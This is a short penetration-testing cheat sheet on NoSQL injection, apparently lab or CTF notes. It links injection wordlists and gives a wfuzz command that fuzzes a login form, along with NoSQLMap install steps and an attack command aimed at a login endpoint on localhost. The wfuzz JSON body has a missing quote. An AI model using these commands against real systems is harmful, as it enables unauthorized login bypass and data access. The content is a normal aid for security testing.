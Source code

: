 **Fuzzing** 

- https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/NoSQL.txt

```sh
wfuzz -z file,/opt/seclists/Fuzzing/Databases/NoSQL.txt -u http://127.0.0.1/login.php -d '{"username": FUZZ, "password: FUZZ}'
```

**NoSQLMap**

```sh
git clone https://github.com/codingo/NoSQLMap.git
cd NoSQLMap
sudo apt install python2.7
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
pip2 install couchdb
pip2 install --upgrade setuptools
pip2 install pbkdf2
pip2 install pymongo
pip2 install ipcalc
```

```sh
python2 nosqlmap.py --attack 2 --victim 127.0.0.1 --webPort 80 --uri /index.php --httpMethod POST --postData email,test@gmail.com,password,qwerty --injectedParameter 1 --injectSize 4
```

- Burp-NoSQLiScanner